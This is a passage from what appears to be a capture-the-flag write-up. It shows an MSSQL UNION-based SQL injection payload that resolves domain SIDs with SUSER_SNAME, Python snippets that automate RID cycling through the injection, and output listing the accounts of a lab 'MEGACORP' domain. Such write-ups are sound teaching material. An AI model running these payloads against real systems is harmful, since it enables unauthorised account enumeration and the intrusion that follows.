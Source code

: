 Now we can generate the payload the get this principals name:

```sql
a' UNION ALL SELECT 1,SUSER_SNAME(0x0105000000000005150000001C00D1BCD181F1492BDFC236F4010000),3,4,5 --
```

In theory, we should get the principal-name of the Administrator account returned.

```json
[{"id":1,"name":"MEGACORP\\Administrator","position":"3","email":"4","src":"5"}]
```

We get `MEGACORP\Administrator`as a response and have verified our script works.

```python
def bf_SID(sid,rid):
    id = build_user_sid(sid,rid)
    #if rid % 10 == 0:
    #    print("[*] Trying SID: %s" % id)
    payload = gen_payload(f"SUSER_SNAME({id})")
    return send(payload) # Either returns "" or a username
```

Now we just need to automate this process by cycling through all possible RIDs.

```python
rid = 500
while rid <= max_rid: # Limit RID to cycle through (example: 3000)
    try:
        user = bf_SID(sid,rid)
        if user:
            print(f"[+] Found user: {user}")
```

Running the python script:

```bash
root@darkness:~# python3 enum_domain_accounts_sqli.py 
Domain Account enumeration using RID cycling via MSSQL-injection
Created by Chr0x6eOs

[+] Got Domain-Name: MEGACORP
[+] Got Domain-SID: 0105000000000005150000001C00D1BCD181F1492BDFC236
[+] Found user: MEGACORP\\Administrator
[*] Trying RID range: 500 - 510
[+] Found user: MEGACORP\\Guest
[+] Found user: MEGACORP\\krbtgt
[+] Found user: MEGACORP\\DefaultAccount
[*] Trying RID range: 510 - 520
[+] Found user: MEGACORP\\Domain Admins
[+] Found user: MEGACORP\\Domain Users
[+] Found user: MEGACORP\\Domain Guests
[+] Found user: MEGACORP\\Domain Computers
[+] Found user: MEGACORP\\Domain Controllers
[+] Found user: MEGACORP\\Cert Publishers
[+] Found user: MEGACORP\\Schema Admins
[+] Found user: MEGACORP\\Enterprise Admins
[+] Found user: MEGACORP\\Group Policy Creator Owners
[*] Trying RID range: 520 - 530
[+] Found user: MEGACORP\\Read-only Domain Controllers
[+] Found user: MEGACORP\\Cloneable Domain Controllers
[+] Found user: MEGACORP\\Protected Users
[+] Found user: MEGACORP\\Key Admins
[+] Found user: MEGACORP\\Enterprise Key Admins
[*] Trying RID range: 530 - 540
[*] Trying RID range: 540 - 550
[*] Trying RID range: 550 - 560
[*] Trying RID range: 560 - 570
```